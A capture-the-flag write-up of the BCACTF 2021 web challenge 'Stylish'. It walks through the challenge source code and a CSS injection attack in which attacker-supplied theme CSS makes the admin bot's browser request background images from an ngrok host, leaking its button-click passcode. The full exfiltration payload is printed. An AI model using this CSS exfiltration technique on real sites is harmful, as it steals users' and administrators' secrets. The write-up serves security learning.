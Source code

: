 +++
title = "BCACTF Stylish"
date = "2021-06-14T01:46:05+02:00"
author = "Filip Poplewski"
tags = ["CTF", "Web", "English"]
cover = "https://ctftime.org/media/events/LogoArtboard_1.png"
description = """


What can happen if we give users ability to change the color on the website.   
Oh... hack into administrator account, how is this even possible???   
"""

showFullContent = false
readingTime = false
hideComments = false
color = "green" #color from the theme settings
+++



# Stylish

## Challenge description 
![img](BCACTF/Pasted_image_20210614000841.png)</br>
Stylish is the one of the hardest challenges at the website and it give us 400 points.
Organizers give us URL to website and server source code files.  


## Look at the website 
![img](BCACTF/Pasted_image_20210613000440.png)</br>
![img](BCACTF/Pasted_image_20210613000518.png)</br>
Ok so as we can see at website we have got 4 color inputs serialized with JSON and send by GET parameter. By clicking "Submit for review" button we can  send them to admin.    
But second important thing in our website is "Get flag" button.

![img](BCACTF/Pasted_image_20210613000448.png)</br>
Our goal in this CTF is steal admin secret code to the flag.

## Look at the source code 
#### passcode.js
```js
export default function generatePasscode() {
	const chars = ["0", "1", "2", "3", "4", "5", "6", "7", "8", "9", "A", "B", "C", "D", "E", "F"];
	for (let i = 0; i < chars.length - 1; i++) {
		let temp = chars[i];
		let j = Math.floor(Math.random() * (chars.length - i)) + i;
		chars[i] = chars[j];
		chars[j] = temp;
	}
	return chars.join("");
}
```
Password is generated from 16 hexadecimal character in random order. 

#### server.js
```js
app.post("/submit", async (req, res) => {

 try {
	 const {bg, fg, bbg, bfg} = req.body;
	 if (typeof bg !== "string") return res.status(400).type("txt").send("bg must be a string");
	 if (typeof fg !== "string") return res.status(400).type("txt").send("fg must be a string");
	 if (typeof bbg !== "string") return res.status(400).type("txt").send("bbg must be a string");
	 if (typeof bfg !== "string") return res.status(400).type("txt").send("bfg must be a string");
	 const encoded = encodeURIComponent(JSON.stringify({ bg, fg, bbg, bfg }));
	 if (encoded.length > 2000) return res.status(400).type("txt").send("Theme permalink too long (>2000 chars)");

  

	 await visit('http://localhost:1337/#${encoded}', passcode);
	 res.type("txt");
	 res.send("The admin has checked out your theme!");
 } catch (e) {
	 console.error(e.stack);
	 res.sendStatus(500);
 }
});
```
#### visit.js
```js
 await page.goto(url, {waitUntil: "load", timeout: 1000});
 await page.click("#get-flag");
 await page.waitForSelector(".e");

 for (let i \= 0; i < passcode.length; i++) {
	const char \= passcode.charAt(i);
	const id \= "button" + Math.floor(Math.random() \* 123456);
	await page.evaluate(\`
		document.querySelectorAll(".e > button").forEach(button => {
			if (button.innerText === "${char}") {
				button.id = "${id}";
			}
		})
	`);
	await page.click(\`#${id}\`);
	await timeout(50);
 }
 await page.click(".s");
 await timeout(1000);
 ```
By looking at the source code we can see that CSS sent by user isn't verified at all (except checking if it is string but it's not problem at all) so we can easily inject own CSS style.
After setting our CSS style admin sets id (always beginning at "button") to button which creates randomly generated passcode and click them.   


### Attack scenario
1. Send to admin CSS which will try to load background from website hosted on our PC. According on which button have been clicked it will be try to download file with button number. For example if clicked button will be "F" it will try to load img from www.my_website.com/F, if clicked button will be "4" it will try to download www.my_website.com/4.
2. Listen on server img requests.
3. Login for flag with obtained numbers.

### CSS payload
```css
red;}
button:nth-child(1)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/0")}
button:nth-child(2)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/1")}
button:nth-child(3)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/2")}
button:nth-child(4)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/3")}
button:nth-child(5)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/4")}
button:nth-child(6)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/5")}
button:nth-child(7)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/6")}
button:nth-child(8)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/7")}
button:nth-child(9)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/8")}
button:nth-child(10)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/9")}
button:nth-child(11)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/A")}
button:nth-child(12)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/B")}
button:nth-child(13)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/C")}
button:nth-child(14)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/D")}
button:nth-child(15)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/E")}
button:nth-child(16)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/F")}
```





### payload sent
![img](BCACTF/Pasted_image_20210612234737.png)</br>
Unfortunately my exploit doesn't catch one number (zero) so I had to brute force his position :(

![img](BCACTF/Pasted_image_20210613000604.png)</br>
After few minute we got the flag.
